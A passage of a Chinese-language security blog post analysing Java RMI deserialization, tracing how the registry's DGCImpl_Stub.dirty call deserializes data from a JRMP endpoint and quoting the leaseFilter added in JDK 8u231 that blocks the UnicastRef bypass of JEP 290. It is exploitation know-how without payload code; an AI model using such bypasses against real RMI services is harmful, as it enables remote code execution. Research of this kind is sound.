

下断点调试可以发现注册中心在DGCimpl\_Stub的ditry中跟JRMP开始建立连接，首先通过newCall建立连接，随后通过writeObject写入要请求的数据，invoke来处理传输数据并将数据发送到JRMP端，跟入this.ref.invoke(var5);



随后跟入var1.executeCall()：



随后JRMP端发过来的数据会在这里被反序列化



### 增过滤器

在JDK8u231的dirty函数中多了setObjectInputFilter过程，所以用UnicastRef就没法再进行绕过了

```
sun.rmi.transport.DGCImpl_Stub#dirty

```

  
leaseFilter代码如下所示：

```
private static ObjectInputFilter.Status leaseFilter(ObjectInputFilter.FilterInfo var0) {
        if (var0.depth() > (long)DGCCLIENT_MAX_DEPTH) {
            return Status.REJECTED;
        } else {
            Class var1 = var0.serialClass();
            if (var1 == null) {
                return Status.UNDECIDED;
            } else {
                while(var1.isArray()) {
                    if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)DGCCLIENT_MAX_ARRAY_SIZE) {
                        return Status.REJECTED;
                    }

                    var1 = var1.getComponentType();
                }

                if (var1.isPrimitive()) {
                    return Status.ALLOWED;
                } else {
                    return var1 != UID.class && var1 != VMID.class && var1 != Lease.class && (var1.getPackage() == null || !Throwable.class.isAssignableFrom(var1) || !"java.lang".equals(var1.getPackage().getName()) && !"java.rmi".equals(var1.getPackage().getName())) && var1 != StackTraceElement.class && var1 != ArrayList.class && var1 != Object.class && !var1.getName().equals("java.util.Collections$UnmodifiableList") && !var1.getName().equals("java.util.Collections$UnmodifiableCollection") && !var1.getName().equals("java.util.Collections$UnmodifiableRandomAccessList") && !var1.getName().equals("java.util.Collections$EmptyList") ? Status.REJECTED : Status.ALLOWED;
                }
            }
        }

```

## 文末小结

本篇文章主要介绍了针对JDK 8u141~JDK8u231之间的CheckAccess的绕过+JEP290的绕过实现~
